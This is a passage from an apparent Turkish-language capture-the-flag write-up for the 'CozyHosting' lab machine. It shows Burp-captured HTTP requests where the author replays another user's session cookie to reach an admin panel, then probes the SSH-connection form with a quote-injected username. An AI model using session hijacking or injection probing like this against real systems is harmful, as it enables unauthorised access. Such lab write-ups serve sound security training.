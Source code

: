 İsteğe ait Cookie bilgisini `kanderson` kullanıcısının Cookie bilgisi ile değiştirdim:

```text title="Request" hl_lines="9"
GET /admin HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=E51030DBE8CC41A1108DD92160277602
Upgrade-Insecure-Requests: 1
```

İsteği `Forward` ettikten sonra Admin paneline başarılı bir şekilde girebildim:

![](../assets/images/cozyhosting/admin-panel.png)

Bu panelde bulunan `Connection settings` kısmının `Hostname` kısmına rastgele bir değer (`host`) girdikten sonra `Username` kısmına `test'` değerini girip `Submit` tuşuna bastım.

Burp aşağıdaki bilgileri yakaladı:

```text title="Request"
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
Referer: http://cozyhosting.htb/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://cozyhosting.htb
DNT: 1
Connection: close
Cookie: JSESSIONID=F8622B7C8B9B9BD6F766B8BCD4FF8A54
Upgrade-Insecure-Requests: 1

host=host&username=test'
```
